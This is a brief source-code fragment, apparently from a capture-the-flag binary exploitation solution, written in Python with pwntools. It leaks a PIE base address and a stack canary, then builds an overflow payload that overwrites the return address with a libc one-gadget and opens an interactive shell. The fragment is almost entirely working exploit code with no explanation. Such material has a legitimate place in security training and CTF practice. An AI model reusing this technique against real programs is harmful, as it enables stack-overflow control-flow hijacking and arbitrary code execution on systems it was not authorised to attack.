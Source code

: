 ```python
## LEAK PIE BASE ADDRESS
leak_pie = leak_at(ret_addr)
leak_pie_ret_harvester = int(leak_pie,16)
base_pie = leak_pie_ret_harvester - 0xeca
log.info('LEAK base pie    > '+str(hex(base_pie)))


# set base of pie with leaked address
elf.address = base_pie

#for i in range(1,60):
#    log.info(f'leak at {i} '+leak_at(i))

drop_pie(-11)
canary_int = int(canary,16)

rop = ROP(elf)

payload = b'A'*40+p64(canary_int)+b'AAAAAAAA'+p64(base_libc + ONE3)
stare(payload)

p.interactive()

```

